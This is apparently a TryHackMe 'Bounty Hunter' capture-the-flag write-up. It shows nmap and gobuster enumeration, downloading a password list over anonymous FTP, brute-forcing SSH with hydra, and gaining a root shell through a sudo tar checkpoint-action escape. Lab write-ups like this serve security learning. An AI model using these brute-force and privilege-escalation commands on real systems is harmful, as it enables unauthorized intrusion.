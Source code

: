 ```yaml
---
title: TryHackMe - Bounty hunter
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, hydra, ssh, gpg, john, SUID]
---
```


### nmap

```sh
sudo nmap -sS -sC -v 10.10.71.74
	Discovered open port 80/tcp on 10.10.71.74
	Discovered open port 22/tcp on 10.10.71.74
	Discovered open port 21/tcp on 10.10.71.74
```

### Http_port 80

`http://10.10.71.74/`

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.71.74
```

### ftp

from the `nmap` scan
```

		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
		|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```sh
get locks.txt 
get task.txt
```

**The files**
- `locks.txt` is a word-list with passwords
- `task.txt` is a file created by `lin` *who i guess is a user*

### hydra
We use hydra to brute force the ssh
```sh
hydra -l lin -P locks.txt 10.10.71.74 ssh
```

Port 22 (ssh) 
host: 10.10.71.74
login: `lin`
password: `RedDr4gonSynd1cat3`

### ssh
```sh
ssh lin@10.10.7174
```
 	
```sh
sudo -l
/usr/lib
```

- Shell(syntax)
It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
- Command 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```sh
find / -name "root.txt" 2>/dev/null
cat root.txt
	#THM{80UN7Y_h4cK3r}
```
